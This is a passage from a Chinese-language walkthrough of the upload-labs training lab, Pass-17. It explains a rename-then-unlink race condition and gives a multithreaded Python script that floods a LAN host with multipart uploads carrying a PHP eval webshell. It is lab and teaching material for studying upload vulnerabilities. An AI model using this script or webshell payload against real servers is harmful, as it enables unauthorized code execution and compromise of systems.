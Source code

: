```

查看源码，发现文件上传后会通过rename修改名称，然后unlink删除，这里可以通过条件竞争，不断上传我们的文件，在删除前访问webshell。

脚本：

```python
#!/usr/bin/env python
# coding:utf-8

import hackhttp
from multiprocessing.dummy import Pool as ThreadPool


def upload(lists):
    hh = hackhttp.hackhttp()
    raw = """POST /upload/Pass-17/index.php HTTP/1.1
Host: 192.168.43.170
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.43.170/upload-labs/Pass-17/index.php
Cookie: pass=17
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------6696274297634
Content-Length: 351

-----------------------------6696274297634
Content-Disposition: form-data; name="upload_file"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php eval($_POST['123']); ?>
-----------------------------6696274297634
Content-Disposition: form-data; name="submit"

上传
-----------------------------6696274297634--
"""
    code, head, html, redirect, log = hh.http('http://192.168.43.170/upload/Pass-17/index.php', raw=raw)
    print(str(code) + "\r")


pool = ThreadPool(20)
pool.map(upload, range(10000))
pool.close()
pool.join()
```

#### pass-18
